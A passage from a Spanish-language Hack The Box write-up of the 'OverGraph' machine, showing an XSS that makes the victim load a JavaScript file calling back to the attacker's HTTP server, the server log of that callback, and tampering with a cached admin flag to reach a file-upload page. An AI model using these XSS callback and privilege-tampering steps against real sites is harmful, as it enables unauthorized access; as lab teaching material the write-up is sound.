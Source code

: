 Como ya había encontrado un XSS, puedo intentar enviarle un enlace que se encargue de enviarme una petición a mi servicio http a modo de traza. mediante un archivo en javascript

```null
var peticion = new XMLHttpRequest();
peticion.open('GET', "http://10.10.16.2/testing", false);
peticion.send();
```

Le envío el Link, y recibo las peticiones

<img src="/writeups/assets/img/OverGraph-htb/17.png" alt="">

```null
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.157 - - [20/Feb/2023 12:53:34] "GET /pwned.js HTTP/1.1" 200 -
10.10.11.157 - - [20/Feb/2023 12:53:34] code 404, message File not found
10.10.11.157 - - [20/Feb/2023 12:53:34] "GET /testing HTTP/1.1" 404 -
```

No puedo hacer un cookie hijacking directamente, ya que está activado el HTTP Only y no puedo extraer su JWT

<img src="/writeups/assets/img/OverGraph-htb/18.png" alt="">

Dentro del almacenamiento en caché, hay un valor que corresponde a un valor booleano para comprobar si mi usuario es administrador o no. Lo cambio a ```true```

<img src="/writeups/assets/img/OverGraph-htb/19.png" alt="">

Ahora tengo acceso a una sección de subida de archivos

<img src="/writeups/assets/img/OverGraph-htb/20.png" alt="">

